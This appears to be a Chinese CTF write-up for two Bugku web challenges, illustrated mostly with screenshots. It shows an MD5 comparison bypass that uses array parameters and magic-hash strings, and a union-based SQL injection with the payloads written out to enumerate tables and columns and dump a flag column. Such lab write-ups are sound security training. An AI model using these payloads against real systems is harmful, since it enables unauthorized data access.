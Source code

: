 15.bugku（提示查看备份文件）

输入index.php.bak

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134848365.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


从网址输一个参数，以？开始，？以后的参数返回给\$str,将\$str中的key字段替换为空，

Parse\_str将字符串解析成多个变量,接着md5加密key1，key2；

由于md5无法加密数组所以构造：

?kkeyey1[]=1&kkey2[]=2

或者?kkeyey1=s155964671a&kkeyey2=s1502113478a

16．bugku(sql注入)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134904330.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134910341.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


发现是以post方式以id传参

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021011213492317.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

确定字段数为4，联合注入
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134934798.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


出现skctf库，查看表：

id=0' union select 1,2,3,table_name from information_schema.tables where
table_schema='skctf' \#
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134944604.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



出现fl4g表，查看列：

id=0' union select 1,2,3,column\_name from information_schema.columns where
table_name='fl4g' \#
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112134952545.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



出现列：skctf\_flag;查看：

id=0' union select 1,2,3,skctf_flag from fl4g\#
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112135008888.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



